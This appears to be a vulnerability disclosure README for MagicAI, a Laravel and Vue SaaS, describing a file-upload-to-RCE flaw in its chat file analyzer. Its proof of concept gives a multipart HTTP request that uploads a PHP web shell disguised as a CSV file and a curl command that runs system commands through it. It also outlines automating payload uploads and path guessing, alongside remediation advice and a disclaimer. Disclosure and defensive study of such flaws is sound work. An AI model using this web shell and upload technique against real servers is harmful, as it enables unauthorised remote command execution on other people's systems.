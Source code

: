 
# 🐚 MagicAI - Authenticated File Upload to RCE via Mimetype Manipulation 

📌 **Product Information**  
**Platform**: Laravel + Vue (SaaS)  
**Affected Feature**: File Upload on Chat File Analyzer  
**Tested Vulnerability**: Arbitrary File Upload via Mimetype Bypass  
**CVE**: Not Assigned  
**Severity**: Critical (RCE via file manager bypass)  
**CWE ID**: CWE-434  
**CWE Name**: Unrestricted Upload of File with Dangerous Type  
**Patched**: ❌ Not Applicable  
**Patch Priority**: 🔴 High  
**Date Published**: July 28, 2025  
**Researcher**: yucaerin  
**Vendor**: [liquidthemes](https://codecanyon.net/user/liquidthemes)  
**Product Link**: [MagicAI SaaS - Chat, Image, Code Generator](https://codecanyon.net/item/magicai-openai-content-text-image-chat-code-generator-as-saas/45408109)

---

⚠️ **Summary of the Vulnerability**  
MagicAI’s document analyzer feature allows users to upload `.csv` or document files. The backend does **not** sufficiently validate file content against its declared mimetype. As a result:

- Attacker can upload a PHP file disguised as a `.csv` (e.g., `shell.php` with `Content-Type: text/csv`)
- File gets stored in a publicly accessible folder or accessible via File Manager
- Remote command execution is possible if file is executed on server

## 🧪 Proof of Concept (PoC)

### ➤ Step 1 - Upload Malicious File via Analyzer Endpoint

```http
Content-Disposition: form-data; name="category_id"

15
------WebKitFormBoundary
Content-Disposition: form-data; name="doc"; filename="shell.php"
Content-Type: text/csv

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary
Content-Disposition: form-data; name="type"

yucaerin/csv.php
aa
------WebKitFormBoundary--
```

### ➤ Step 2 - Trigger the Uploaded Payload

Assuming upload path is known or predictable:
```bash
curl https://target.com/uploads/temp.yucaerin/csv.php?cmd=id
```

✅ **Indicators of Success**:
- `uid=33(www-data)` or similar command output in response
- File accessible via web

## 🔍 Where’s the Flaw?
- Trusting client-supplied `Content-Type`
- No backend file signature validation
- Lack of strict file extension whitelist + file content inspection

## 🔐 Recommendation
- Validate mimetype **and** content on backend
- Only allow `.csv`, `.txt`, `.docx` with MIME and magic-byte checking
- Store uploads outside webroot or apply `.htaccess` deny execution
- Use Laravel’s `Storage::putFileAs()` with proper file visibility control

## ⚙️ Optional Automation Features
A script or tool can:
- Upload multiple payloads with varying extensions
- Search predictable upload paths
- Trigger RCE via GET parameter

## 🛑 Affected Versions
- MagicAI (as of July 2025) – no file upload protection on analyzer
- Deployment with file write permission + public path = vulnerable

## ⚠️ Disclaimer  
This PoC is for **educational and authorized security testing** only.  
Do **not** test on systems you don’t own or don’t have permission to analyze.  
Unauthorized access is illegal and unethical.
